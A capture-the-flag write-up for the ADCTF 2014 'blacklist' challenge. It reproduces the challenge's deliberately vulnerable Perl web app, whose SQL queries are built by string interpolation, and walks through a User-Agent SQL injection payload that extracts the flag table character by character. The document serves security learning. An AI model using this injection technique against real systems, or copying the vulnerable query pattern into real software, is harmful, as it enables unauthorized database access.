 ### Solved by historypeats

> We have stupid blacklist. The flag is in flag table.
> http://blacklist.adctf2014.katsudon.org/

Provided Source Code:
```perl
use Mojolicious::Lite;
use DBI;

# enjoy~
my $BLACKLIST_CHAR = qr/['*=]/;
my $BLACKLIST_WORD = qr/select|insert|update|from|where|order|union|information_schema/;

my $dbh = DBI->connect('dbi:mysql:blacklist', 'blacklist', $ENV{BLACKLIST_PASSWORD});
helper dbh => sub { $dbh };

get '/' => sub {
    my $self = shift;
    my $ip = $self->tx->remote_address;
    my $agent = $self->req->headers->user_agent;
    # remove evil comments
    $agent =~ s!/\*.*\*/!!g;
    # disallow this one
    die 'no hack' if $agent =~ /\)\s*,\s*\(/;
    $self->dbh->do(
        "INSERT INTO access_log (accessed_at, agent, ip) VALUES (NOW(), '$agent', '$ip')"
    );
    my $access = $self->dbh->selectall_arrayref(
        "SELECT * FROM access_log WHERE ip = '$ip' ORDER BY accessed_at DESC LIMIT 10",
        {Slice => {}}
    );
    return $self->render('index', ip => $ip, access => $access);
};

get '/search' => sub {
    my $self = shift;
    my $ip = $self->param('ip');
    $ip =~ s/$BLACKLIST_CHAR//g;
    $ip =~ s/$BLACKLIST_WORD//g;
    my $id = $self->param('id');
    $id =~ s/$BLACKLIST_CHAR//g;
    $id =~ s/$BLACKLIST_WORD//g;
    my ($agent) = $self->dbh->selectrow_array(
        "SELECT agent FROM access_log WHERE ip = '$ip' AND id = '$id'",
        {Slice => {}}
    );
    if ($agent) {
        $agent =~ s/$BLACKLIST_CHAR//g;
        $agent =~ s/$BLACKLIST_WORD//g;
        my $access = $self->dbh->selectall_arrayref(
            "SELECT * FROM access_log WHERE ip = '$ip' AND agent LIKE '$agent' ORDER BY accessed_at DESC LIMIT 10",
            {Slice => {}}
        );
        return $self->render('search', agent => $agent, access => $access);
    } else {
        return $self->render_not_found;
    }
};

get '/source' => sub {
    my $self = shift;
    my $src = do {
        open my $fh, '<', __FILE__ or die $!;
        local $/; <$fh>;
    };
    return $self->render(text => $src, format => 'txt');
};

app->start;

__DATA__
@@ index.html.ep
<!DOCTYPE html>
<html>
<head>
    <meta charset="utf-8" />
    <title>blacklist</title>
</head>
<body>
    <p>sqli, sqli, sqli~~~ we have blacklist. see <a href="/source">source</a>.</p>
    <h2><%= stash 'ip' %>:</h3>
    <ul>
    % my $access = stash 'access';
    % for (@$access) {
        <li>[<%= $_->{accessed_at} %>] "<%= $_->{agent} %>" <a href="<%== url_for('/search')->query(ip => $_->{ip}, id => $_->{id}) %>">search</a></li>
    % }
    </ul>
</body>
</html>

@@ search.html.ep
<!DOCTYPE html>
<html>
<head>
    <meta charset="utf-8" />
    <title>blacklist</title>
</head>
<body>
    <h2>search with "<%= stash 'agent' %>"</h3>
    <ul>
    % for (@$access) {
        <li>[<%= $_->{accessed_at} %>] "<%= $_->{agent} %>"</li>
    % }
    </ul>
</body>
</html>

@@ not_found.html.ep
<!DOCTYPE html>
<html>
<head>
    <meta charset="utf-8" />
    <title>not found</title>
    <style>body{font-size:64px;}</style>
</head>
<body>
    <pre>             _      __                       _
 _ __   ___ | |_   / _| ___  _   _ _ __   __| |
| '_ \ / _ \| __| | |_ / _ \| | | | '_ \ / _` |
| | | | (_) | |_  |  _| (_) | |_| | | | | (_| |_ _ _
|_| |_|\___/ \__| |_|  \___/ \__,_|_| |_|\__,_(_|_|_)</pre>
</body>
</html>

```

Here we have a SQL injection challenge that relies on a blacklist filter to prevent attackers. As we all know, blacklist filters are terrible when it comes to protecting SQL queries and the proper method would be to use parameterized queries.

Looking at the code, we are able to inject arbitrary SQL into the "INSERT INTO" query via the User-Agent of the request and have the data returned to us in the subsequent "SELECT" query. The "INSERT INTO" query is performed whenever a new request to the index of the page (http://blacklist.adctf2014.katsudon.org/) is made, taking the User-Agent and IP address of the request and inserting it into the database. Additionally, we are allowed to use single-quotes in our injection, which allows us to break out of the query and perform our own SQL statements.

In order to exploit this SQL injection, I used the following base injection in the User-Agent of the request: 

```
hai2' + (ord(substring((select * from flag limit 1),1,1))),'38.86.162.36');#
```

Now to explain what this does, it basically reads the first character of the flag and converts it to it's ASCII decimal equivalent. Then it performs an addition operation with the string 'hai2'. Performing an addition operation between a string and number will return the number. Therefore, the "INSERT INTO" query will be writing the ASCII decimal value of the first letter of the flag.

The response to this request returns the following snippet:
```html
<!DOCTYPE html>
<html>
<head>
    <meta charset="utf-8" />
    <title>blacklist</title>
</head>
<body>
    <p>sqli, sqli, sqli~~~ we have blacklist. see <a href="/source">source</a>.</p>
    <h2>38.86.162.36:</h3>
    <ul>
        <li>[2014-12-17 06:34:42] "65" <a href="/search?ip=38.86.162.36&id=42980">search</a></li>

```

We can see that "65" is returned. "65" is the decimal equivalent of the letter "A". Now all we need to do is increment substring number until we succesfully enumerate the entire flag.

After a quick script, the following python script is used to convert the decimal values returned:
```python

x = [65, 68, 67, 84, 70, 95, 100, 48, 95, 78, 111, 84, 95, 85, 115, 51, 95, 70, 85, 99, 75, 49, 78, 95, 56, 108, 52, 99, 107, 76, 49, 115, 84]
word = ''

for i in x:
    word += chr(i)

print word
```

Flag: ADCTF_d0_NoT_Us3_FUcK1N_8l4ckL1sT
